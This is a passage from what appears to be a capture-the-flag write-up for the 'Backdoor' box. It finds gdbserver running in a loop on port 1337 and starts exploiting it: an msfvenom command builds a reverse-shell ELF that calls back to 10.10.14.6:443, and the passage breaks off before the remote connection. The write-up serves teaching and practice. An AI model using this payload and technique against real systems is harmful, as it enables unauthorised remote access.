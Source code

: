 ```
865: /usr/sbin/atd -f 
867: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups 
887: /usr/sbin/apache2 -k start 
898: /usr/lib/accountsservice/accounts-daemon 
...[snip]...

```

This process is:

```

/bin/sh -c while true;
    do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; 
done

```

It’s running `gdbserve` as user in a loop on port 1337.

### Exploit gdbserver

#### Upload Rev Shell Elf

Hacktricks has a [page](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) on exploiting `gdbserver`. I suspect at least the first technique was tested on Backdoor (given the use of port 1337 and the location of `/home/user`). This technique is to create an elf, and then upload it to the remote debugger and run it there.

I’ll create a simple reverse shell payload with `msfvenom`:

```

oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: rev.elf

```

Next, I’ll start debugging it locally:

```

oxdf@hacky$ gdb -q rev.elf 
Reading symbols from rev.elf...
(No debugging symbols found in rev.elf)
(gdb)

```

Now connect to the remote server:
